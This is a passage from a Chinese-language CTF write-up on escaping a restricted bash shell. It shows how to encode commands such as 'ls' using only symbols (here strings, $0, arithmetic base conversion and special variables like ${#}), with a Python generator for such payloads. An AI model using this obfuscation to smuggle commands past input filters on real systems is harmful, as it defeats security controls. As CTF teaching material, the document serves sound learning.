 具体细节可以阅读：https://github.com/ProbiusOfficial/bashFuck 这里不再赘述，我们引入一个 Here string 的语法让终端在做一次解析即可：

```
$0 为当前脚本名称，在bash终端中 与 bash 字符串等价。
比如下面为 ls 命令：
$0<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'

如果要执行带参命令，则需要两次解析：
$0<<<$0\<\<\<\$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
```

这里用到了一些bash中的特殊变量（非字母）：

| 变量           | 含义                                       | 示例输出                          |
| -------------- | ------------------------------------------ | --------------------------------- |
| `${#}`         | 传递给脚本或函数的参数个数                 | `0`（参数为空时）                 |
| `${?}`         | 上一个命令的退出状态                       | `0`（正常退出）或 `1`（异常退出） |
| `${_}`         | 上一个命令的最后一个参数                   | 上一个命令的最后一个参数值        |
| `${0}`         | 当前脚本或 shell 的名字                    | `bash` 或脚本名                   |
| `${1} 到 ${9}` | 传递给脚本或函数的第 1 到第 9 个参数       | 第 1 到第 9 个参数值              |
| `${@}`         | 传递给脚本或函数的所有参数（以列表形式）   | 所有参数值                        |
| `${*}`         | 传递给脚本或函数的所有参数（以字符串形式） | 所有参数作为单个字符串            |
| `${$}`         | 当前 shell 的进程 ID (PID)                 | 进程 ID 值                        |
| `${!}`         | 上一个后台运行的进程的进程 ID (PID)        | 后台进程的 PID                    |
| `${-}`         | 当前 shell 的选项标志                      | `hB`（表示 shell 选项标志）       |

你可以使用生成器中的 `Charset (9) : # $ ' ( ) 0 1 < \`，或者下面的Python：

```python
print('$0<<<$0\\<\\<\\<\\$\\\'' + ''.join(f'\\\\$(($((1<<1))#{bin(int(oct(ord(c))[2:]))[2:]}))' for c in 'ls') + '\\\'')
```

#### Level 11 - 数字1的特殊变量替换

**替换 0 1：**

我们知道 `${#}`代表传递给当前脚本的参数个数，但我们是直接和sh交互命令，sh软连接的指向的 bash ，bash直接运行时是没有参数的：

```
root@Hello-CTF:/home# echo ${#}
0
root@Hello-CTF:/home# echo $#
0
```

**间接扩展特性**——`${#xxx}`，它用于表示变量 xxx 存储的字符串长度：

```
bash-5.1# str="abcdefg"
bash-5.1# echo ${#str}
7
```
